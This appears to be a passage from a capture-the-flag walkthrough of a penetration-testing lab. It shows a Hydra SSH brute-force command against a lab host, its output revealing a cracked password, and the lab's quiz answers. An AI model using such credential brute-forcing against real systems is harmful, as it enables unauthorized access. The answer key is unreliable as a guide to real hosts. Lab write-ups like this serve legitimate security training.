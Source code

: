 Staff.txt
~~~
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
~~~

Bruteforcing SSH with Hydra
~~~
┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ hydra -L users -P ~/Tools/rockyou.txt ssh://10.10.40.124 -t 4 -V -I
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-23 12:19:58
DATA] max 4 tasks per 1 server, overall 4 tasks, 14344400 login tries (l:1/p:14344400), ~3586100 tries per task
[DATA] attacking ssh://10.10.40.124:22/
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "123456" - 1 of 14344400 [child 0] (0/0)
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "12345" - 2 of 14344400 [child 1] (0/0)
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "123456789" - 3 of 14344400 [child 2] (0/0)
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "password" - 4 of 14344400 [child 3] (0/0)
[22][ssh] host: 10.10.40.124   login: jan  password: armando
1 of 1 target successfully completed, 1 valid password found
~~~

# Q5.What is the password?
~~~
armando
~~~

# Q6. What service do you use to access the server(answer in abbreviation in all caps)? 
~~~
SSH
~~~

# Q7. Enumerate the machine to find any vectors for privilege escalation 
# Q8. What is the name of the other user you found(all lower case)?
~~~
kay
~~~
# Q9. If you have found another user, what can you do with this information?
# Q10. What is the final password you obtain?
